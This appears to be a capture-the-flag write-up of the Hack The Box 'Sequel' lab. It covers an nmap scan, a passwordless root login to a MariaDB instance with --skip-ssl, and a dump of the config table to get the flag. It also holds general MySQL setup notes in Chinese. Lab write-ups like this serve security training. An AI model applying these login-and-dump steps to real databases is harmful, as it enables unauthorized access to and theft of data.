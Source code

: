 <center>Sequel</center>





[toc]







## Sequel

> Sequel







### 1. task

1. During our scan, which port do we find serving MySQL?

```shell
nmap -sV 10.129.95.232 -A

PORT     STATE SERVICE VERSION
3306/tcp open  mysql?
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 135
|   Capabilities flags: 63486


3306
```

2. What community-developed MySQL version is the target running?

```shell
MariaDB
```

3. When using the MySQL command line client, what switch do we need to use in order to specify a login username?

```shell
-u
```

4. Which username allows us to log into this MariaDB instance without providing a password?

```shell
root
```

5. In SQL, what symbol can we use to specify within the query that we want to display everything inside a table?

```shell
*
```

6. In SQL, what symbol do we need to end each query with?

```shell
;
```

7. There are three databases in this MySQL instance that are common across all MySQL instances. What is the name of the fourth that's unique to this host?

```shell
mysql -h 10.129.95.232 -u root -p 

ERROR 2026 (HY000): TLS/SSL error: SSL is required, but the server does not support it
# 方法1：使用命令行参数
mysql -h 10.129.95.232 -u root --skip-ssl 

```





### 2. mysql

> mysql: MySQL 是最流行的开源关系型数据库管理系统

```shell
支持多种存储引擎
高性能
可靠性
易用性
跨平台
```

> `端口：3306`

> mysql 环境搭建

````shell
# 更新系统
sudo apt update
sudo apt upgrade

# 安装 MySQL
sudo apt install mysql-server mysql-client

# 安全配置
sudo mysql_secure_installation


#### 配置文件位置
```bash
# 主配置文件
sudo nano /etc/mysql/mysql.conf.d/mysqld.cnf
```
````

```shell
[mysqld]
# 网络设置
bind-address = 127.0.0.1
port = 3306

# 字符集设置
character-set-server = utf8mb4
collation-server = utf8mb4_unicode_ci

# 存储设置
datadir = /var/lib/mysql

# InnoDB 设置
innodb_buffer_pool_size = 1G
innodb_log_file_size = 256M
innodb_flush_log_at_trx_commit = 1

# 连接设置
max_connections = 150
```

````shell

### 4. 用户和权限管理

```sql
-- 创建用户
CREATE USER 'username'@'localhost' IDENTIFIED BY 'password';

-- 授权
GRANT ALL PRIVILEGES ON database_name.* TO 'username'@'localhost';
FLUSH PRIVILEGES;

-- 查看用户权限
SHOW GRANTS FOR 'username'@'localhost';
```


### 5. 数据库操作

```sql
-- 创建数据库
CREATE DATABASE dbname CHARACTER SET utf8mb4 COLLATE utf8mb4_unicode_ci;

-- 查看数据库
SHOW DATABASES;

-- 使用数据库
USE dbname;

-- 创建表
CREATE TABLE users (
    id INT AUTO_INCREMENT PRIMARY KEY,
    name VARCHAR(100) NOT NULL,
    email VARCHAR(100) UNIQUE,
    created_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP
);
```


### 6. 备份和恢复

```bash
# 备份单个数据库
mysqldump -u root -p database_name > backup.sql

# 备份所有数据库
mysqldump -u root -p --all-databases > all_databases.sql

# 恢复数据库
mysql -u root -p database_name < backup.sql
```

#### 配置优化
```ini:/etc/mysql/mysql.conf.d/mysqld.cnf
[mysqld]
# 缓冲池设置
innodb_buffer_pool_size = 4G
innodb_buffer_pool_instances = 4

# 日志设置
innodb_log_file_size = 512M
innodb_log_buffer_size = 16M

# 查询缓存
query_cache_size = 128M
query_cache_limit = 2M

# 临时表
tmp_table_size = 64M
max_heap_table_size = 64M
```

````







### 3. flag

> 获取flag



```shell
mysql -h 10.129.95.232 -u root --skip-ssl 

show databases;

use htb;

show tables;

select * from config;
```

